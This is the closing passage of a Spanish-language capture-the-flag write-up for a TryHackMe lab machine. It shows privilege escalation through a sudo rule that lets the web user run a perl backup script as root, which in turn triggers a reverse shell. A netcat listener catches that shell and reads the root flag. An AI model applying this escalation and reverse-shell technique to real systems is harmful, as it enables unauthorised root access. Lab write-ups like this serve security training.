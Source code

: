 Hacemos sudo -l para ver los comandos que podemos ejecutar como root y nos reporta lo siguiente:

```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

# [](#header-1)Escalada de privilegios

Podemos usar perl y abrir un archivo en /home/itguy/backup.pl

Abrimos el archivo y nos redirige a otro archivo que nos reporta una shell!

Deberemos cambiar la IP y el puerto en el que estamos por escucha desde nuestra máquina y ejecutar sudo /usr/bin/perl /home/itguy/backup.pl (usamos perl para ejecutar la shell que nos han proporcionado con la IP y el puerto cambiado). 

Conseguimos ser root y solo nos queda ir al directorio /root y abrir el archivo root.txt

```bash
❯ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.79.39] from (UNKNOWN) [10.10.141.160] 38086
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls
root.txt
# cat root.txt
THM{??????????????????????}
```

Muchas gracias por leer este writeup, espero que te haya gustado!
